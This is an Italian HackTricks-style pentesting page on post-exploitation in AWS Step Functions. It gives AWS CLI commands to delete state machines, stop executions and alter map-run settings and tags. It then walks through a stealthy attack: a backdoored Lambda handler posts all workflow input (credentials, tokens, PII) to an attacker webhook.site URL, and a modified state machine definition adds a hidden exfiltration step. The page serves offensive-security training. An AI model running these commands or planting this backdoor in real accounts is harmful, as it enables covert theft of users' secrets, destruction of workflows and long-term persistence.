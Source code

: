 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

Per ulteriori informazioni su questo servizio AWS, controlla:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

Questo permesso consente di **rivelare dati segreti all'interno di un'esecuzione**. Per farlo, è necessario impostare il livello di ispezione su TRACE e il parametro revealSecrets su true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

Un attaccante con questi permessi sarebbe in grado di eliminare permanentemente le macchine a stati, le loro versioni e alias. Questo può interrompere flussi di lavoro critici, causare perdita di dati e richiedere tempo significativo per recuperare e ripristinare le macchine a stati interessate. Inoltre, consentirebbe a un attaccante di coprire le tracce utilizzate, interrompere le indagini forensi e potenzialmente compromettere le operazioni rimuovendo processi di automazione essenziali e configurazioni di stato.

> [!NOTE]
>
> - Eliminando una macchina a stati si eliminano anche tutte le sue versioni e alias associati.
> - Eliminando un alias di macchina a stati non si eliminano le versioni della macchina a stati che fanno riferimento a questo alias.
> - Non è possibile eliminare una versione della macchina a stati attualmente referenziata da uno o più alias.
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **Impatto Potenziale**: Interruzione dei flussi di lavoro critici, perdita di dati e inattività operativa.

### `states:UpdateMapRun`

Un attaccante con questo permesso sarebbe in grado di manipolare la configurazione di fallimento del Map Run e l'impostazione parallela, potendo aumentare o diminuire il numero massimo di esecuzioni di flussi di lavoro secondari consentiti, influenzando direttamente le prestazioni del servizio. Inoltre, un attaccante potrebbe manomettere la percentuale e il conteggio di fallimento tollerati, potendo ridurre questo valore a 0 in modo che ogni volta che un elemento fallisce, l'intero map run fallirebbe, influenzando direttamente l'esecuzione della macchina a stati e potenzialmente interrompendo flussi di lavoro critici.
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **Impatto Potenziale**: Degradazione delle prestazioni e interruzione dei flussi di lavoro critici.

### `states:StopExecution`

Un attaccante con questo permesso potrebbe essere in grado di fermare l'esecuzione di qualsiasi macchina a stati, interrompendo flussi di lavoro e processi in corso. Questo potrebbe portare a transazioni incomplete, operazioni aziendali bloccate e potenziale corruzione dei dati.

> [!WARNING]
> Questa azione non è supportata da **express state machines**.
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **Impatto Potenziale**: Interruzione dei flussi di lavoro in corso, inattività operativa e potenziale corruzione dei dati.

### `states:TagResource`, `states:UntagResource`

Un attaccante potrebbe aggiungere, modificare o rimuovere tag dalle risorse di Step Functions, interrompendo l'allocazione dei costi della tua organizzazione, il tracciamento delle risorse e le politiche di controllo degli accessi basate sui tag.
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**Impatto Potenziale**: Interruzione dell'allocazione dei costi, tracciamento delle risorse e politiche di controllo degli accessi basate su tag.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

Un attaccante che compromette un utente o un ruolo con i seguenti permessi:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...può condurre un **attacco post-exploitation ad alto impatto e furtivo** combinando il backdooring di Lambda con la manipolazione della logica di Step Function.

Questo scenario presuppone che la vittima utilizzi **AWS Step Functions per orchestrare flussi di lavoro che elaborano input sensibili**, come credenziali, token o PII.

Esempio di invocazione della vittima:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
Se la Step Function è configurata per invocare un Lambda come `LegitBusinessLogic`, l'attaccante può procedere con **due varianti di attacco furtive**:

---

####  Aggiornato la funzione lambda

L'attaccante modifica il codice della funzione Lambda già utilizzata dalla Step Function (`LegitBusinessLogic`) per esfiltrare silenziosamente i dati di input.
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Aggiungi uno Stato Maligno alla Funzione di Passaggio

In alternativa, l'attaccante può iniettare uno **stato di esfiltrazione** all'inizio del flusso di lavoro aggiornando la definizione della Funzione di Passaggio.
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
L'attaccante può anche essere più furtivo aggiornando la definizione dello stato a qualcosa del genere
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
dove la vittima non si accorgerà della differenza

---

### Configurazione della Vittima (Contesto per l'Exploit)

- Una Step Function (`LegitStateMachine`) viene utilizzata per elaborare input sensibili degli utenti.
- Chiama una o più funzioni Lambda come `LegitBusinessLogic`.

---

**Impatto Potenziale**:
- Esfiltrazione silenziosa di dati sensibili, inclusi segreti, credenziali, chiavi API e PII.
- Nessun errore o fallimento visibile nell'esecuzione del workflow.
- Difficile da rilevare senza auditare il codice Lambda o le tracce di esecuzione.
- Abilita una persistenza a lungo termine se il backdoor rimane nel codice o nella logica ASL.


{{#include ../../../banners/hacktricks-training.md}}
